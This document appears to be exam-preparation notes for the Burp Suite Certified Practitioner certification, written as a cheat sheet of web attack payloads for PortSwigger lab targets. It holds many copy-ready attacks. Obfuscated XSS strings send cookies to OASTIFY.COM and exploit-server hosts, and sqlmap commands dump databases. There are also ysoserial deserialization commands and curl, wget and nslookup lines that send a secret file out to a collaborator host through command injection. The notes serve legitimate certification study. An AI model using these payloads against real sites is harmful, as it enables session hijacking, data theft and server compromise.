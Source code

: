 # Resources
- [botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)
- [DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file)
- [micahvandeusen - burp-suite-certified-practitioner-exam-review](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/)
- [ChrisM-X/PortSwigger-Academy-CheatSheets](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/tree/master/_Prepare%20For%20Burp%20Suite%20Exam)
- [pawlokk/burp-exam-notes/blob/main/methodology.txt](https://github.com/pawlokk/burp-exam-notes/blob/main/methodology.txt)
- [bscpcheatsheet.gitbook.io/exam](https://bscpcheatsheet.gitbook.io/exam)
- [Notes template](https://www.y-security.de/news-en/looking-at-the-portswigger-burp-suite-certification/index.html)
# Payload processing
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
# Web Cache
```http
Host: TARGET.net
Host: exploit.net
```
```http
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Scheme: nohttps
X-Forwarded-Proto: EXPLOIT.net
Origin: EXPLOIT.net
```
```http
GET /?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```
# Host Header
- Check if the Host header is validated
```http
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```
# Brute Force
- Cluster bomb
- Long password, right/wrong user
- Subtle response message difference
- Return of a 302
- Protected Login > X-Forwarded-For: 12.13.14.15
# Password Reset
- Refresh password (Stage 1)
- Current password - escalate privileges (Stage 2)
# API and Access Control
- Mass Assignment
- Parameter pollution (url encode special symbols)
- Original URL to admin panel
```http
X-Original-URL: /admin
```
- TRACE method to admin panel to disclose special headers
- Look for Server side prototype pollution
# CORS
- Set Origin header to arbitrary header or null
- Check for anti iframe headers
- Look for Access-Control-Allow-Credentials
- Look for Access-Control-Allow-Origin
# XSS
```html
"-(window["document"]["location"]="https://exploit-server%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
"}; window['docu'+'ment']['loc'+'ation']='https://subdomain%2eexploit-server%2enet/?'+(window['docu'+'ment']['coo'+'kie']);//
<script>
location ='https://url.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit%252eexploit-server%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';
</script>
fetch("https://url.net/?c="+btoa(document.cookie))
"></select><script>document.location='https://OASTIFY.COM/?domxss='+document.cookie</script>//
</ScRiPt ><img src=a onerror=document.location="https://OASTIFY.COM/?biscuit="+document.cookie>
fetch(`https://OASTIFY.COM/?jsonc=` + window["document"]["cookie"])
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
If eval is blocked used other alternatives
<><img src=1 onerror=javascript:fetch(`https://OASTIFY.COM?escape=`+document.cookie)>
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
<img src="https://EXPLOIT.net/img">
<script src="https://EXPLOIT.net/script"></script>
<video src="https://EXPLOIT.net/video"></video>
```
- Check: https://github.com/DingyShark/BurpSuiteCertifiedPractitioner/?tab=readme-ov-file#some-useful-bypasses
# SQLi
```bash
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter"
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3
sqlmap -u "url" --cookie="cookies" --batch -D database -T table --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3 --dump
```

# Insecure Deserialization
- Command
```bash
java -jar ysoserial-all.jar [payload] "command"
```
- Base64 encode the payload piping the output to `base64 -w 0`
   - For MacOS use the `gbase64` command which accepts the -w flag

```bash
java -jar ysoserial-all.jar [payload] "command" | gzip -c | base64 -w 0
```
# Command for data exfiltration
```bash
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net
&`nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com`
||nslookup+$(cat+/home/carlos/secret).<collaborator>
`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`
```
# Game plan
## Quick recon
- Quickly glance at both apps and run "scan selected insertion point" on interesting url parameters
- While the preliminary scans run focus on one web app
- Only switch to the other web app if the scans return a positive result
- Map out all functionalities
- Run a content discovery scan
   - Another option is to instead used ffuf or gobuster
   ```bash
   wget https://raw.githubusercontent.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/main/wordlists/burp-labs-wordlist.txt
   ffuf -c -w ./burp-labs-wordlist.txt -u https://TARGET.web-security-academy.net/FUZZ
   ffuf -u http://kek.com/FUZZ -w /usr/share/dirb/wordlists/big.txt -t 50 -c
   gobuster dir -u http://kek.com -w /usr/share/dirb/wordlists/common.txt
   ```
- Use Burp's browser to look for DOM XSS, Web messages, or Prototype pollution
- Use Param Miner to Probe for different vulnerabilities
    - Web Cache Poisoning
    - Host header injection
- From the "Site map" tab use the "Engagement tools" to gather information
- Follow the information disclosure methodology to find information
- Use the Developer tools to look for event listeners
- Use the HTTP Request Smuggling Probe
- Try Brute Force Issues
- If stage 1 involved user interaction then don't use CSRF or CORS as there is only one active user
- If stage 1 did not involve user interaction then try CSRF or CORS
- Look for password reset issues
## Found a suitable functionality to exploit
- Step through each possible scenario and study how the endpoint behaves under different conditions
- Remember, the payload might work, but it needs to be obfuscated
## Escalated privileges
- Determine what new functionality/privileges the user has gained
- Remember, the payload might work, but it needs to be obfuscated
